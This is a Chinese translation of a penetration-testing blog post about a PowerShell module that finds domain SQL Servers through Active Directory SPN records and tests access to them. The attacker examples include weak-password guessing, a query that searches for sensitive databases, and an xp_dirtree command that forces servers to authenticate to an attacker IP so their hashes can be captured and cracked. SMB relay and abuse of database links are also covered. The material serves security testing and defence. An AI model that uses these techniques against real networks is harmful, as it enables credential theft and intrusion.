

# 非扫描式定位攻击域内 SQL Server

2014/06/02 13:25 | [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布") | [渗透案例](http://drops.wooyun.org/category/pentesting "查看 渗透案例 中的全部文章") | 占个座先 | 捐赠作者

from:https://www.netspi.com/blog/entryid/228/locate-and-attack-domain-sql-servers-without-scanning

## 0x00 背景

* * *

在这篇文章里，我将分享一个新的 PowerShell 脚本来使用 AD 中 Service Principal Name (SPN) 记录判别并攻击 windows 域中的 SQL Server，而且不需要扫描发现。起初我写这个脚本是为了在渗透测试中帮助提权及定位关键的数据。下面我将展示它对攻击者和防御者是多么的有用。

## 0x01 非扫描式的 SQL Server 发现

* * *

当你没有 SQL Server 认证信息或试图攻击时，不同多样的扫描技术是非常有用的。但是这一过程却非常嘈杂，耗时。同时也有可能因为未知的网段信息、非标准的端口、广播域限制而错过服务器。当我在 AD 中偶遇 Service Principal Name (SPN) 时，我发现有一个便捷快速的方法定位域中的服务器。 微软的文档中是这样陈述的：” ServicePrincipleName（SPN）是客户端用来唯一标识一个服务实例的名称。”这也就意味着每一个在 windows 域中安装的服务都在 AD 中注册。同样也包括 SQL Server。并且任何一个域成员都可以不用扫描获取 ADS 上所有的 SQL Server 信息，另外 SPN 包括实例确定的端口也就避免了扫描的麻烦。对于更多关于 SPN 的内容，可以参考我之前写的一篇文章 "[Faster Domain Escalation Using LDAP](https://www.netspi.com/blog/entryid/214/faster-domain-escalation-using-ldap)"。 了解 SPN 信息在 AD 中存在之后确实很棒，但是很快我又意识到此时需要一个更加自动化的解决方案。

## 0x02 使用 Get-SQLServerAccess PowerShell 模块自动化

* * *

在实验室里摆弄了一会，我认为如果有一个脚本可以自动化通过 LDAP 从 ADS 中获取 SQL Server 的列表，然后测试当前域用户针对其的权限，再一次我想到了 PowerShell。因为它本身就支持我需要的一切。例如，标准的 PowerShell v.3 包含 LDAP 查询、SQL Server 查询、IP 解析、ICMP 请求、数据分析，无需额外的库、cmdlets，或者方法。 在一阵修补后，我打包成一个 powershell 模块叫做”Get-SQLServerAccess.psm1”，我试着添加足够的参数便于防御者快速有效的发现问题所在，攻击者也可以在提权中使用。同样它也非常方便简单的发现数据储存的地方。接下来我试着从攻击者和防御者的角度突出地介绍一些功能。 我将 Get-SQLServerAccess 写成一个 Powershell 模块，所以对于那些不熟悉的人我会先介绍安装步骤。

## 0x03 安装 Get-SQLServerAccess 模块

* * *

这个脚本可以从我的 github 上下载(here)，在某些时候我也会将它提交到 Posh-SecMod，无论如何，请注意它需要 Powershell v3 的环境。这个模块可以手动安装通过将其下载至下面路径中的任意一处:

```
%USERPROFILE%\Documents\WindowsPowerShell\Modules\Get-SQLServerAccess\ 
%WINDIR%\System32\WindowsPowerShell\v1.0\Modules\Get-SQLServerAccess\ 
```

然后你就可以通过下面的语句导入：

```
Import-Module c:\temp\Get-SQLServerAccess.psm1 
```


同样你可以通过下面的语句判断是否导入成功

```
Get-Command Get-SQLServerAcess 
```


防御者使用示例 数据库管理员通常都会给所有域成员登录 SQLServer 的权限，因为实际上他们也不确定哪个域用户组成员需要权限，另外 SQL Server 的老版本默认允许域用户登陆，这是因为一个权限继承的问题(见之前的文章[here](https://www.netspi.com/blog/entryid/228/privilegeinheritance))。这些错误配置导致未认证的域用户获取数据和系统的权限，作为一个防御者快速的发现这些错误配置并修正是极好的。 Get-SQLServerAccess 默认输出允许当前域用户登陆的 SQL Server，另外输出也会显示 SQL Server 实例的名称。如果用户有 SQL Serversy 的 sadmin 权限，并且运行 SQL Server 服务的是域管理员权限，那么下面的几个示例，我想对于防御者是非常方便的。 通过 LDAP 从 ADS 获取 SQL Server 的列表，然后试图用当前域用户登陆每一个 SQL Server。这是默认的输出显示。

```
PS C:\Get-SQLServerAccess
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication/query failed
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```

2，通过 LDAP 从 ADS 获取 SQL Server 的列表，然后试图用当前域用户登陆每一个 SQL Server。这次将输出到 CSV 文件中。

```
PS C:\Get-SQLServerAccess -ShowSum | export-csv c:\temp\sql-server-excessive-privs.csv
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication/query failed
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```

下面是一个上例中输出的截图。


上面的例子只是展示了我实验室中测试的结果，但是在真实环境中我通常看到成百上千的服务器。Just for fun，我同样建议你以一个域用户权限去运行这个脚本，通过使用”psexec.exe –s –I cmd.exe”之后可以获取一个本地 system 权限的 shell。然后向上述的一样运行脚本。我想你会惊讶于登陆进了多少台 SQL server,我记得我当时的样子。不管怎么说，到了攻击的例子了。 攻击者使用示例 对于 SQL server 来说有很多的攻击方法。下面我将介绍在脚本帮助下的五种攻击技术。

**1，弱口令猜解**仍然是一种有效的攻击方法。在每个客户的测试环境中，我们发现每次都有少量存在弱口令的 SQL Server。通常登陆用户名包括 sa,test,dba,user 和 sysadmin。密码则是:[the username], [the company], password, Password1 和 SQL。除此之外有很多的数据库弱口令猜解工具，但是我还是加了一个 SQL Server 登陆的参数来验证在 ADS 中发现的 SQL Server，下面是一个示例。注意：这个参数也可以方便的发现不同服务器登录情况。

```
PS C:\Get-SQLServerAccess -sqluser test -sqlpass test
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as test...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication failed
[+] Failed   - server3.mydomain.com,1433 (192.168.1.103) is up, but authentication failed
[+] Failed   - server3.mydomain.com\SQLEXPRESS (192.168.1.103) is up, but authentication failed
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: No - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 1 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```

**2，寻找敏感数据**一直都很重要。使用自定义的”-query”参数便可以在每一个可登陆的 SQL Server 中查询你想要的信息。下面是一个简单的示例，演示如何列出用户可以登陆的服务器中的信息。 PS C:\Get-SQLServerAccess -query "select name as 'Databases' from master..sysdatabases where HAS_DBACCESS(name) = 1"

```
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as test...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication failed
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103)-Sysadmin:No - SvcIsDA:No 
[+] Query sent: select name as 'Databases' from master..sysdatabases where HAS_DBACCESS(name) = 1
[+] Query output:

Databases
---------                                                          
master
tempdb
msdb      

[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS(192.168.1.103)-Sysadmin:No-SvcIsDA:No
[+] Query sent: select name as 'Databases' from master..sysdatabases where HAS_DBACCESS(name) = 1
[+] Query output:

Databases
---------                                                          
master
tempdb
msdb      

[+] SUCCESS! - server4.mydomain.com\AppData(192.168.1.104)-Sysadmin: Yes-SvcIsDA: Yes       
[+] Query sent: select name as 'Databases' from master..sysdatabases where HAS_DBACCESS(name) = 1
[+] Query output:

Databases
---------                                                          
master
tempdb
msdb      
PCIDataDB
ApplicationDB
CompanySecrects                      

[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```

**3，捕获和破解服务帐户的密码哈希**在渗透测试中同样也是一个获取 SQL server 服务账户权限非常有效的攻击方法，在许多场合下服务账户都有环境中所有 SQL Server 管理员权限，偶尔账户也会有域管理权限。我曾经写了一篇关于捕获中继 SQL Server 服务账户密码 hash 的文章([here](https://www.netspi.com/blog/entryid/139/executing-smb-relay-attacks-via-sql-server-using-metasploit))。然而，我提供过一种使用”-query”参数快速使 SQL Server 认证 192.168.1.50 攻击者的 IP 的方法。

```
PS C:\ Get-SQLServerAccess -query "exec master..xp_dirtree '\\192.168.1.50\file'"
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication/query failed
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] Custom query sent: exec master..xp_dirtree '\\192.168.1.50\file'
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] Custom query sent: exec master..xp_dirtree '\\192.168.1.50\file'
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[+] Custom query sent: exec master..xp_dirtree '\\192.168.1.50\file'
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```

有一个非常棒的工具叫做 Responder 可以捕获从任意 SQL server 传递过来的密码 hash。它可以从这里下载[here](https://github.com/SpiderLabs/Responder)。最后，hash 可以使用[OCLHashcat](http://hashcat.net/oclhashcat/)破解。

**4，针对共享 SQL Server 服务帐户，执行 SMB 中继攻击**几乎总是有效的。麻烦的是找出哪个 SQL Server 配置使用的是同一个服务账户。为了解决这个问题，我同样也在脚本中添加了几个参数来显示出所有服务账户。这些参数包括”-showsum”和”-showstatus”。服务账户同样也可以输出至 csv 文件中。一旦被发现，我博客之前提到的方法([found here](https://www.netspi.com/blog/entryid/139/executing-smb-relay-attacks-via-sql-server-using-metasploit))就可以用来获取 SQL Server 系统级权限。下面是一个基础的例子展示如何发现使用相同服务账户的 SQL Server:

```
PS C:\Get-SQLServerAccess -ShowSum | export-csv c:\temp\sql-server-excessive-privs.csv
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[+] SUCCESS! - server2.mydomain.com\AppOneDev (192.168.1.102) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server3.mydomain.com\AppOneProd (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```

在这个例子中，你可以看到其中有三个都在使用同一个域共享服务账户。


**5，爬取数据库链接执行 sysadmin 权限查询**也是一个几乎在所有场景中应用的技术。Antti Rantasaari 在他博客里发表过一个关于数据库链接非常不错的概述([How to Hack Database Links in SQL Server](https://www.netspi.com/blog/entryid/197/how-to-hack-database-links-in-sql-server))，在不久前我们同样也写过一个用来攻击的 metasploit 模块([here](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/mssql/mssql_linkcrawler.rb))。尽管你可以盲目的枚举数据库链接，但是我想用脚本来抓取每一个可登陆的 SQL Server 的链接数会变得更方便。你可以用”-showsnum”和”-showsatus”选项来显示它们。和上一个例子相似，同样也可以输出至 csv 文件中。下面是上一个的例子。

```
PS C:\Get-SQLServerAccess -ShowSum | export-csv c:\temp\sql-server-excessive-privs.csv
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[+] SUCCESS! - server2.mydomain.com\AppOneDev (192.168.1.102) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server3.mydomain.com\AppOneProd (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ---------------------------------------------------------------------- 
```

正如你在示例所见，其中两个服务器存在链接，有可被攻击的潜在可能。



## 0x04 小结

* * *

下载这个脚本，用它来找到洞，然后修补它。 Have fun and hack responsibly!

版权声明：未经授权禁止转载 [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [使用 LDAP 查询快速提升域权限](http://drops.wooyun.org/pentesting/2125)
*   [Powershell tricks::Bypass AV](http://drops.wooyun.org/tips/3353)
*   [TPLINK 渗透实战](http://drops.wooyun.org/tips/2552)
*   [WIFI 渗透从入门到精通](http://drops.wooyun.org/pentesting/3390)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [关于 TRACERT 和 TTL](http://drops.wooyun.org/tips/78)